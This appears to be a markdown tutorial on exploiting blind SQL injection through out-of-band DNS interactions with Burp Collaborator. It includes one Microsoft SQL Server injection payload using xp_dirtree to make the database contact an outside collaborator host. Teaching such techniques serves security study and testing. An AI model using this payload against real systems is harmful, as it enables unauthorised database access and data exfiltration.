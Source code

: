 # Exploiting blind SQLi using out-of-band  (OAST) techniques
#### In the context of exploiting blind SQL injections using out-of-band (OAST) techniques, when an application performs SQL queries asynchronously, traditional methods may not be effective.
#### The application continues processing the user's request in the original thread while using another thread to execute a SQL query . 
#### Unlike typical SQLi scenarios, the application's response doesn't rely on data retrieval, database errors, or query execution time. However, exploiting this vulnerability is still possible by triggering out-of-band network interactions to a controlled system. This involves using injected conditions to infer information gradually or direct exfiltrating data through network interactions.
**NOTE**: **DNS** (domain name service) is often a preferred protocol for out-of-band interactions, as many production networks permit free egress of DNS queries due to their essential role in system operation.
#### The most user-friendly and reliable tool for utilizing out-of-band techniques is **Burp Collaborator**. It functions as a server, offering custom implementation of various network services, including DNS.
#### With Burp Collaborator it's possible to identify instances when network interactions happen due to sending specific payloads to a vulnerable application.
* **Example**: To trigger a DNS query, the techniques employed are dependent on the type of database in use. For instance, consider the following input on Microsoft SQL Server, which initiates a DNS lookup on a specified domain:
* `; exec master..xp_dirtree'//32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net/a'--`
* Ths input prompts the database to perform a DNS lookup for the domain:
* `32rf2f2f829f29fh29f2hf29fh2ay.burpcollaborator.net`
* Burp Collaborator can then generate a unique subdomain, and by polling the Collaborator server, we can confirm when DNS lookups occur.